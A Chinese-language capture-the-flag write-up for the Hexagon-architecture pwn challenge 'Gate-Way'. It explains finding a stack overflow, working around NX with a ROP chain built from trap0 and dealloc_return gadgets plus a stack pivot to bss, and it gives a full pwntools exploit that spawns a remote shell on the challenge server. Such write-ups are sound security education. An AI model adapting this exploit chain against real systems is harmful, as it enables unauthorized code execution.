



# Gate-Way

## 文件属性

|属性  |值    |
|------|------|
|Arch  |hexagon-le|
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |yes   |

## 解题思路

不知道从哪里翻出来的小众架构，Ghidra、IDA和GDB都没支持...好不容易从GitHub上翻到个[IDA插件]，
因为我是Linux，所以还要下载[IDA SDK]然后编译一下，放到IDA的`procs`目录下。
好不容易能用IDA打开了，发现没有反编译支持，而且还剥了符号...

硬着头逆也不是办法，先运行一下看看，找到个输入大量字符串的地方，看到别人做出来这么快，
估计有栈溢出。输入很多文本后确实会崩，但是没有调试器太难搞了，幸好LLDB支持hexagon架构，
可以查看崩溃时的信息。

[IDA插件]: https://github.com/n-o-o-n/idp_hexagon
[IDA SDK]: https://github.com/HexRaysSA/ida-sdk



把报错的pc拿去做cyclic lookup，找到偏移为98。加上前面10个字符，栈空间+fp共占用108字节。
多次调试，发现sp也没有变过，所以先尝试直接在栈上尝试执行shellcode。好不容易写好了，
发现并不能执行，看了一眼page信息，有nx，不能直接执行...



那就需要走rop了。查阅了一些资料，了解了一些hexagon的汇编指令，其中调用syscall是`trap0(1)`，
前五个参数放在r0-r5，系统调用号放在r6中。具体的系统调用号可以从[qemu仓库]中找到。
我们的目标是调用 `execve("/bin/sh", NULL, NULL)`，并且qemu-user在调用execve的时候，
其实是会逃脱模拟的，因此只要我们能exec shell，就可以执行任意命令，不需要qemu了。
由于程序是静态编译的，我们直接找有没有好用的gadget。使用 `llvm-objdump -d gateway | grep -B 4 trap0`
可以找到有关trap0的gadget，其中有一个比较好用的（其实是出题人加的）。

[qemu仓库]: https://gitlab.com/qemu-project/qemu/-/blob/master/linux-user/hexagon/syscall.tbl

```asm
   214f4:       00 c0 70 70     7070c000 {  r0 = r16 }
   214f8:       01 c0 71 70     7071c001 {  r1 = r17 }
   214fc:       02 c0 72 70     7072c002 {  r2 = r18 }
   21500:       06 c0 73 70     7073c006 {  r6 = r19 }
   21504:       04 c0 00 54     5400c004 {  trap0(#0x1) }
```

可以看到只要控制r16-r19就可以任意控制了。接下来就是找能控制这些寄存器的gadget。
不过首先我们需要知道hexagon架构是如何做函数返回的。具体指令是`dealloc_return`，
其含义是把fp+8加载到sp中，从fp处加载fp和lr，最后跳转到lr的地方，和x86上类似。
我们搜索其相关的gadget，能找到一个合适的：

```asm
   217e4:       05 1e 0c 3e     3e0c1e05 {  r17:16 = memd(r29+#0x8); r19:18 = memd(r29+#0x0) }
   217e8:       1e c0 1e 96     961ec01e {  dealloc_return }
```

由于是栈溢出，我们可以继续往后控制内容，以上指令的含义是把sp+0的双字，
分别加载到r18和r19中；把sp+8的双字，加载到r16和r17中，正好之前的gadget对上了。
为了避免远端的环境和本地的环境可能存在不同，在bss上找到了与我们输入内容相同的缓冲区，
直接做一次栈迁移（因为要设置一次fp），保证成功率。而且地址已知的情况下，
也方便我们布局`"/bin/sh"`字符串。最后思路就是`1.1.1.1:1|`绕检查；放置/bin/sh字符串；
控制fp做栈迁移同时控制寄存器；跳转到gadget执行execve。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'

def payload(lo: int):
    global t
    if lo & 2:
        t = process(['./qemu-hexagon', '-g', '1337', './gateway'])
    elif lo:
        t = process(['./qemu-hexagon', './gateway'])
    else:
        t = remote('1.95.188.222', 8888)

    t.sendlineafter(b'1. ', b'1')
    t.sendlineafter(b'1. ', b'1')

    bss_cp = 0x475f0
    t.sendlineafter(b'172.16.0.1', flat({
        0:      b'1.1.1.1:1|',
        0x10:   0, # pivot stack to here
        0x14:   0x214f4, # { r0 = r16 } { r1 = r17 } { r2 = r18 } { r6 = r19 } { trap0 }
        0x58:   b'/bin/sh',
        0x68:   bss_cp + 0x10,
        0x6c:   0x217e4, # { r17:16 = memd(sp+#8); r19:18 = memd(sp+0) } { return }
        0x70:   [ 0, 221, bss_cp + 0x58, 0 ], # r2, r6, r0, r1 => execve("bin/sh", NULL, NULL)
    }, filler=b'\0'))

    t.clean()
    t.interactive()
    t.close()
```



## 参考

1. [n-o-o-n/idp_hexagon: Hexagon processor module for IDA Pro disassembler](https://github.com/n-o-o-n/idp_hexagon)
2. [HexRaysSA/ida-sdk: This repository offers an open-source C++ SDK bindings for IDA](https://github.com/HexRaysSA/ida-sdk)
3. [linux-user/hexagon/syscall.tbl - QEMU/QEMU](https://gitlab.com/qemu-project/qemu/-/blob/master/linux-user/hexagon/syscall.tbl)
